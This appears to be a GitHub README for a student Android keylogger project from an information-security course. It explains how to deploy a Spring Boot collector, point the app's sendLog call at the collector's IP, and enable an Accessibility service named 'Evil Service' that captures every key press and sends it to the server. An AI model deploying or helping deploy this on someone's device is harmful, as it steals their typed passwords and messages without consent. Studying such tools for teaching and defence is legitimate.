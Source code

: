 # Android Keylogger

This is a project implemented as Project for the Information Systems Security Course. The main idea is developing a basic key logger for android mobile devices.

## Modules
* keylogapp => Basic Android Java Mobile Application that logs keys
* keylogweb => Spring Boot Web Application that receives logged keys

## How It Works
![Keylogger.png](./diagrams/Keylogger.png)

## Usage
1. Deploy **keylogweb** application
    * NOTE: your andorid phone must have access to the server that web application running via network or internet etc.
    * You can directly start with following command:
        ```bash
        mvn clean package spring-boot:run
        ```
2. Prepare **keylogapp** for deployment
   1. [Go To KeyLogger.java](https://github.com/maemresen/android-keylogger/blob/main/keylogapp/app/src/main/java/com/maemresen/infsec/keylogapp/KeyLogger.java) 
   2. Find the following line
        ```
        sendLog("http://192.168.1.37:8080/keylog/save", keyLog);
        ```
    3. Replace `192.168.1.37` with the IP of the machine that you deploy `keylogweb` 
3. You should enable **Evil Service** which listens key press and send them to the server
   * after installed the App, you have to open Accessibility settings. (A button named **Evil Service** is added as a shortcut to directly jump accesibility settings.) Then at the bottom of the page, you will see **Evil Service** under Downloaded Services. You should enable Evil Service from there. Then it will works.
4. You can check your browser and you will see that each key-press on your Android phone will be printed to the web-page. **! Hint:** Do not forget to refresh browser manually. Auto-refresh feature not implemented :)
